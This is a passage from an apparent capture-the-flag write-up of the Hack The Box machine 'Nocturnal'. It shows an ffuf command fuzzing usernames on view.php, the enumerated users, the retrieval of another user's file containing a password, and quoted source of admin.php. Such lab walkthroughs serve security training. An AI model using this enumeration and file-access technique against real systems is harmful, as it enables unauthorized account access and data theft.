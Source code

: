 ```bash
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=file_example_XLS_10.xls' -w users.txt -H 'Cookie: PHPSESSID=nofnbrnj6ju8d7fr0fn3fpposs' -fs 2985 
```

First I ran it without `-fs 2985`, but it shows alot of false positives with length of `2985` so I filtered them.

```bash
admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 72ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 70ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 69ms]
```

and this is the results, we got 3 users:
- `admin`
- `amanda`
- `tobias`

`admin` and `tobias` both has nothing uploaded but `amanda` does:
![](Pasted%20image%2020250518192604.png)

After downloading the file and searching for a odt file viewer online. this shows:

![](Pasted%20image%2020250518192647.png)

so we got a password for `amanda`, let's login with `amanda`!

![](Pasted%20image%2020250518192813.png)

interesting, let's see what's inside!
![](Pasted%20image%2020250518192846.png)

and surprisingly! we can view the source code!

viewing the `admin.php` file:
```php
<?php
session_start();

if (!isset($_SESSION['user_id']) || ($_SESSION['username'] !== 'admin' && $_SESSION['username'] !== 'amanda')) {
    header('Location: login.php');
    exit();
}

function sanitizeFilePath($filePath) {
    return basename($filePath); // Only gets the base name of the file
}

// List only PHP files in a directory
function listPhpFiles($dir) {
    $files = array_diff(scandir($dir), ['.', '..']);
    echo "<ul class='file-list'>";
    foreach ($files as $file) {
        $sanitizedFile = sanitizeFilePath($file);
        if (is_dir($dir . '/' . $sanitizedFile)) {
            // Recursively call to list files inside directories
            echo "<li class='folder'>📁 <strong>" . htmlspecialchars($sanitizedFile) . "</strong>";
            echo "<ul>";
            listPhpFiles($dir . '/' . $sanitizedFile);
            echo "</ul></li>";
        } else if (pathinfo($sanitizedFile, PATHINFO_EXTENSION) === 'php') {
            // Show only PHP files
            echo "<li class='file'>📄 <a href='admin.php?view=" . urlencode($sanitizedFile) . "'>" . htmlspecialchars($sanitizedFile) . "</a></li>";
        }
```